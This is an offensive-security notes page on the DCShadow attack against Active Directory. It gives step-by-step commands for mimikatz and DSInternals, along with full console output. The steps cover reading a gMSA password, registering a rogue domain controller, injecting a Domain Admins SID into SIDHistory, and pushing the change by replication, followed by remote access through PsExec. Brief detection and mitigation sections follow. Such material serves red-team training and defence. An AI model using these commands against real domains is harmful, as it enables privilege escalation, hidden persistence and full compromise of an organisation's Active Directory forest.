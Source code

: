 
Sources : 
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow
https://www.netwrix.com/how_dcshadow_persistence_attack_works.html
https://attack.mitre.org/techniques/T1207/

Create a rogue Domain Controller and push changes to the DC Active Directory objects.
Abuses of compromised replication permissions to mimic a domain controller and make malicious changes to Active Directory. It is often used to surreptitiously hide persistence mechanisms or to escalate privileges across domain trusts.
## DC Shadow with mimikatz

Running as SYSTEM

```powershell
privilege::debug 
token::elevate 
lsadump::dcshadow /stack /object:CN=Zoombie,DC=contoso,DC=com... 
... 
lsadump::dcshadow
```

Running as domain admin

```powershell
lsadump::dcshadow /push
```


## Step of DC Shadow

### Compromise an account with administrative permissions

Example with the password for a poorly secured group managed service account (GMSA) : 

```powershell
PS> Install-Module DSInternals -Force
PS> $GMSAPwd = (Get-ADServiceAccount GMSA1 -Prop msDS-ManagedPassword).'msDS-ManagedPassword'
PS> ConvertFrom-ManagedPasswordBlob $GMSAPwd | Select-Object -ExpandProperty CurrentPassword
帙뽐怦渌㉼璿盯粩랜曞꘭�呓ꉷᏤ�뉇ꘉ욚�㡝측퉷ㅓ栤쪇�픸滈್䊟杂瀳谈ꋋ랕軡첤研麛쪡뚗ጵ謗篷협锭褶࡮뻭寞ꁕꈳ¹䲔ᯊ鵋宫鰄먚㹆⻔㚅买嬷滺눲㫚圐ન盢ḟ뼁ጘ䱏ケ蔤䮍⿆߾겋舤쇻ω킌쏑ퟠ쎫�갥挼矤缀醩ℸꆀ뭈Ȩ窢盒२葰霝빶덻妓㼪喟㗾ꖣ뙑ข
```

#### Modify objects using the DC Shadow attack

The attack includes two parts:   

- Part 1.  The adversary elevates to `SYSTEM` and makes changes to the replicated object.
- Part 2.  The attacker uses the compromised account to push the changes back to a real domain controller.

Example 1 : 

To create a new instance of mimikatz running in the local system security context
```powershell
.\mimikatz.exe
process::runp
lsadump::dcshadow /object:katrina.mendoza.adm /attribute:lastLogonTimestamp /value:123567890123456789
```

It starts a fake server and is waiting for a legit DC to replicate: 
![[Pasted image 20231101215034.png]]

Now to force a legitimate DC to replicate with our fake server, run the following in the red prompt: `lsadump::dcshadow /push`

Once the replication took place, the fake server will stop by itself: ![[Pasted image 20231101215119.png]]

Example 2 : 
Use [mimikatz](https://github.com/gentilkiwi/mimikatz) to inject a [SIDHistory](https://blog.stealthbits.com/privilege-escalation-with-dcshadow/) value for a privileged group in the same or another trusting domain. The SID used in this example represents the `Domain Admins` group in the parent (or forest root) domain.

```powershell
PS> .\mimikatz.exe
mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
 
mimikatz # !ProcessToken
Token from process 0 to process 0
 * from 0 will take SYSTEM token
 * to 0 will take all 'cmd' and 'mimikatz' process
Token from 4/System
 * to 2232/powershell.exe
 * to 1252/cmd.exe
 * to 4496/mimikatz.exe
 
mimikatz # lsadump::dcshadow /object:"CN=BobT,OU=Employees,DC=sub,DC=domain,DC=com" /attribute:SidHistory /value:S-1-5-21-441320023-234525631-506766575-512
** Domain Info **
 
Domain:         DC=sub,DC=domain,DC=com
Configuration:  CN=Configuration,DC=domain,DC=com
Schema:         CN=Schema,CN=Configuration,DC=domain,DC=com
dsServiceName:  ,CN=Servers,CN=Site2,CN=Sites,CN=Configuration,DC=domain,DC=com
domainControllerFunctionality: 7 ( WIN2016 )
highestCommittedUSN: 468849
 
** Server Info **
 
Server: dc1.sub.domain.com
  InstanceId  : {be2d1604-3232-42f6-9c5b-8a37fbcdd357}
  InvocationId: {b38c988f-c904-4c18-afb3-943f12c12399}
Fake Server (not already registered): wks2.sub.domain.com
 
** Attributes checking **
 
#0: SidHistory
 
** Objects **
 
#0: CN=BobT,OU=Employees,DC=sub,DC=domain,DC=com
  SidHistory (1.2.840.113556.1.4.609-90261 rev 0):
    S-1-5-21-441320023-234525631-506766575-512
    (01050000000000051500000057024e1abf93fa0defa4341e00020000)
 
 
** Starting server **
 
 > BindString[0]: ncacn_ip_tcp:wks2[59644]
 > RPC bind registered
 > RPC Server is waiting!
== Press Control+C to stop ==
  cMaxObjects : 1000
  cMaxBytes   : 0x00a00000
  ulExtendedOp: 0
  pNC->Guid: {5bf57149-701e-47c1-bb39-35577f4ea087}
  pNC->Sid : S-1-5-21-3501040295-3816137123-30697657
  pNC->Name: DC=sub,DC=domain,DC=com
SessionKey: 1ade4b2cd9238108e9cc7c275202b9705c4bca951cbdf0e09b6a061a0e678740
1 object(s) pushed
 > RPC bind unregistered
 > stopping RPC server
 > RPC server stopped
```


```powershell
PS> .\mimikatz.exe
mimikatz # lsadump::dcshadow /push
** Domain Info **
 
Domain:         DC=sub,DC=domain,DC=com
Configuration:  CN=Configuration,DC=domain,DC=com
Schema:         CN=Schema,CN=Configuration,DC=domain,DC=com
dsServiceName:  ,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=domain,DC=com
domainControllerFunctionality: 7 ( WIN2016 )
highestCommittedUSN: 1037880
 
** Server Info **
 
Server: dc1.sub.domain.com
  InstanceId  : {ebe88399-c570-4143-bb89-9dc6546b8e09}
  InvocationId: {bef4eddf-eb26-4324-ba9d-abbae40669c5}
Fake Server (not already registered): wks2.sub.domain.com
 
** Performing Registration **
 
** Performing Push **
 
Syncing DC=sub,DC=domain,DC=com
Sync Done
 
** Performing Unregistration **
```


### Then, perform more objective

Adversary authenticates with the compromised account that is now a member of Domain Admins, thereby gaining administrative access to the forest root domain and the ability to compromise any domain in the forest.

```powershell
PS> .\PsExec.exe \\dc1.domain.com powershell.exe
 
PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com
 
 
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
 
Try the new cross-platform PowerShell https://aka.ms/pscore6
 
PS> hostname
dc1
```


## Detect
Network monitoring of `DRSUAPI` RPC requests for the operation `DRSUAPI_REPLICA_ADD` originating from systems that are not known domain controllers

You can analyze events [5136](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-5136) and [5141](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-5141) in the Windows event log [Audit Directory Service Changes](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-directory-service-changes) subcategory to look for creation and deletion of server objects within sites.

Event ID : `4662`

## Mitigate

- Use host-based firewalls to constrain lateral movement. For example, firewall policies should allow RDP or other remote management only from a small number of approved, controlled and monitored systems.
- Do not allow users to possess administrative privileges across security boundaries. This greatly reduces how much an adversary can escalate their privileges.
- Constrain the number of users with permissions to add computer objects to Active Directory.
- Reduce and tightly govern built-in privileged groups and delegated administrative permissions.
- Adopt good Active Directory hygiene. In particular, remove unused sites and computer objects.
